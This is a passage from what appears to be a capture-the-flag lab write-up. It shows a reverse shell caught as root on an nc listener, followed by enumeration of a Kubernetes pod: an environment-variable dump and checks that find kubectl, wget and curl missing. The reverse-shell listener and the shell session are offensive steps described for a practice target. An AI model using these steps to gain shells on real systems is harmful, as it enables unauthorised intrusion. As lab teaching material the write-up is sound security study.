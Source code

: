 After running the command above, you should receive a reverse shell on your lestener as `root`:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.97.254] 33900
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@php-deploy-6d998f68b9-wlslz:/var/www/html# 
~~~

## Enumerating the target

Let's start enumerating the target now. First let me start by saying that we are in a container or an image and we are not root on the host machine.

By checking environment variables, we can confirm the presence of `kubernetes` using `env` command:

~~~
root@php-deploy-6d998f68b9-wlslz:/# env
KUBERNETES_SERVICE_PORT_HTTPS=443
PHP_DEPLOY_SERVICE_HOST=10.152.183.188
KUBERNETES_SERVICE_PORT=443
HOSTNAME=php-deploy-6d998f68b9-wlslz
PHP_INI_DIR=/usr/local/etc/php
PHP_DEPLOY_SERVICE_PORT=80
PWD=/
PHP_DEPLOY_PORT_80_TCP_PORT=80
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.152.183.1:443
PHP_DEPLOY_PORT_80_TCP=tcp://10.152.183.188:80
PHPIZE_DEPS=autoconf         dpkg-dev         file         g++         gcc         libc-dev         make         pkg-config         re2c         bison
PHP_DEPLOY_PORT=tcp://10.152.183.188:80
SHLVL=2
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.152.183.1
PHP_DEPLOY_PORT_80_TCP_ADDR=10.152.183.188
PHP_DEPLOY_PORT_80_TCP_PROTO=tcp
KUBERNETES_SERVICE_HOST=10.152.183.1
KUBERNETES_PORT=tcp://10.152.183.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/root
~~~

There is a problem tho. `kubectl` is not installed, so we can't interact with `kubernetes` service. We can uplaod it tho, right? NO. `wget` and `curl` are not installed either.

~~~
root@php-deploy-6d998f68b9-wlslz:/# kubectl
bash: kubectl: command not found
root@php-deploy-6d998f68b9-wlslz:/# wget
bash: wget: command not found
root@php-deploy-6d998f68b9-wlslz:/# curl
bash: curl: command not found
~~~
